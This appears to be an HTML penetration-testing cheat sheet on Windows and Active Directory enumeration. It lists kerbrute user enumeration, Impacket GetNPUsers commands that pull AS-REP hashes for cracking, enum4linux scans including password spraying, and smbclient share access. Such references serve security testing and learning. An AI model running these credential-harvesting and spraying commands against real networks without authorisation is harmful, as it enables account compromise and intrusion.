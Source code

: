 <ul>
  <h3>Windows Enumeration</h3>
  <li><h4> Passive Enumeration </h4></li>
  <li><h3>Wireshark</h3></li>
  <p>Use wireshark to discover NTLM protocols, LLMNR, What systems are being used for DNS servers by clients</p>
  <li><h3>Alternatives</h3></li>
  <li> TCPDump </li>
  <li> TShark </li>
  
  <li><h3>User Enumeration</h3></li>
  <p>kerbrute userenum $USERLIST -d $DOMAIN --dc $DCIP|$DCDNSNAME </p>
  <p>kerbrute userenum $USERLIST -d $DOMAIN --dc $DCIP|$DCDNSNAME --hash-file $FILESTORINGDISCOVEREDHASHES </p>
  
  <li>Impacket</li>
  <p>python impacket/examples/GetNPUsers.py -request -format hashcat -dc-ip $DCIPADDRESS -usersfile $USERSFILE -no-pass </p>
  <p>python impacket/examples/GetNPUsers.py -request -format john -dc-ip $DCIPADDRESS -usersfile $USERSFILE -no-pass </p>
  <p>python impacket/examples/GetNPUsers.py -request -format hashcat -dc-ip $DCIPADDRESS -usersfile -hashes $LMHASH:$NTHASH </p>
  
  <li><h3>enum4linux</h3></li>
  <br />
  <p> enum4linux -a $IP </p>
  <p> enum4linux -r $IP </p>
  <p> enum4linux -R <Range> $IP </p>
  <p> enum4linux -k $USERNAME </p>
  <h4> Password spraying with enum4linux </h4>
  <p> enum4linux -u $USERLIST -p $PASSLIST $IP|$IPRange </p>
  
  <li> SMBClient </li>
  <p> *** NOTE: You may have to edit your smb configuration to use smbclient on older SMB versions </p>
  <p> List Shares (No Pass): smbclient -L -N ////$IP// </p>
  <p> List Shares: smbclient -L ////$IP// </p>
  <p> Connect as user: smbclient -U $Username ////$IP// </p>
  <p> Connect as user with pass (list shares): smbclient -U $USERNAME -P $PASSWORD -L ////$IP// </p>
  <p> Connect as user with pass: smbclient -U $USERNAME -P $PASSWORD ////$IP//SHARE</p>
  
  <p><h4> Questions to Ask </h4></p>
  <li> Can I upload files? </li>
  <li> Can I download files? </li>
  <li> What permissions are available? </li>
  <li> Are permissions squashed? </li>
  <li> What AD permissions do I have? </li>
  <li> Do I belong to any default groups in AD? What are their default permissions? </li>
  
  <li><h4>Resources</h4></li>
  <p>https://steflan-security.com/smb-enumeration-guide/</p>
</ul>
